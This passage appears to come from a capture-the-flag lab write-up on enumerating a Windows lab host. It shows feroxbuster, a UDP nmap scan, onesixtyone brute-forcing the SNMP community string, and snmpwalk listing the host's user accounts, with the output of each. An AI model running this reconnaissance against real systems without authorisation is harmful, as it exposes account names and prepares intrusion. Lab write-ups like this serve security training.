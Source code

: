 We can also try to enumerate accessible directories and files with feroxbuster:

```shell
feroxbuster -u http://10.10.115.133
```

The feroxbuster results didnt give us anything to work with.

Enumerating all other ports and services wont give us any interesting results.

### SNMP enumeration to find valid username
After exhausting all our possibilities, we still have one last chance enumerating SNMP UDP port and see if we can find anything interesting there:

```shell
sudo nmap -sU -p161 10.10.115.133
```

Hm, lets look at the results...

```shell
<SNIP>
161/udp open|filtered snmp
<SNIP>
```

It seems like maybe we found something here.

Lets use onesixtyone to try to find a community string:

```shell
onesixtyone 10.10.115.133 -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt
```

```shell
Scanning 1 hosts, 3218 communities
10.10.115.133 [openview] Hardware: Intel64 Family 6 Model 79 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)
```

Examining the results, we found the following string:

```shell
openview
```

Lets now use snmpwalk to enumerate it further. We will use "1.3.6.1.4.1.77.1.2.25" to enumerate the default username list:

```shell
snmpwalk -c openview -v1 10.10.115.133 1.3.6.1.4.1.77.1.2.25
```

```shell
SNMPv2-SMI::enterprises.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
SNMPv2-SMI::enterprises.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
SNMPv2-SMI::enterprises.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
SNMPv2-SMI::enterprises.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
SNMPv2-SMI::enterprises.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"
```
